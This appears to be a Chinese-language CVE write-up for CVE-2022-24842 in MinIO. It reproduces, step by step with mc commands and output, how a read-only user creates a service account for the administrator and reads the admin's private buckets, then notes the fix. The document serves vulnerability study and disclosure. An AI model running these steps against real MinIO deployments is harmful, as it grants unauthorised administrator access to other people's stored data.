 # CVE-2022-24842 minio privilege escalation

## 漏洞信息
- 漏洞类型：权限提升
- 漏洞版本：RELEASE.2022-04-12T06-55-35Z to RELEASE.2022-04-12T06-55-35Z(exclude)
- 漏洞简介：普通用户可以为包括管理员在内的其他用户创建子账号，通过子账号获取权限

## repo介绍
minio是一个提供存储桶功能的服务器，目前在github上已有33k个star

## 漏洞分析
这里配置了`RELEASE.2022-04-09T15-09-52Z`版本的minio服务，使用下面的[mc](https://docs.min.io/docs/minio-client-quickstart-guide.html)指令进行复现。首先使用管理员账户创建一个名为`foo`的普通用户代表攻击者，权限设置为`readonly`
```yaml
mc admin user add localadmin foo foobar123 #创建用户
mc admin policy set localadmin readonly user=foo #设置为只读
```
一个名为`foo`的普通用户被创建了

![image](images/1.png)
然后使用这个用户创建一个`host`
```yaml
mc config host add localfoo  http://localhost:9000  foo foobar123 #创建host
mc config host ls #列出所有的host
```
显示成功添加

![image](images/2.png)
然后使用这个`host`为管理员添加一个子用户
```yaml
mc admin user svcacct add localfoo minio 
```
显示出随机生成的用户名和密码
![image](images/3.png)
同时管理界面可以看到管理员子用户的记录

![image](images/4.png)
用这个账号创建一个`host`
```yaml
mc config host add localevil http://127.0.0.1:9000 QZ4RUZHYWC548EKQ678Z bRHLiBlnpY+Pc5BRqYEWRsHMklByop+fSOl4w15M
```
显示创建成功

![image](images/5.png)
使用这个`host`访问admin私有的存储桶

![image](images/6.png)
显示访问成功
```yaml
$ mc ls  localevil 
[2022-05-06 11:56:15 CST]     0B test/
$ mc ls  localadmin
[2022-05-06 11:56:15 CST]     0B test/
```
## 修复方式
在[cmd/admin-handlers-users.go](https://github.com/minio/minio/blob/master/cmd/admin-handlers.go)增加了逻辑校验
![image](images/8.png)
## 参考链接
- https://github.com/minio/minio/security/advisories/GHSA-2j69-jjmg-534q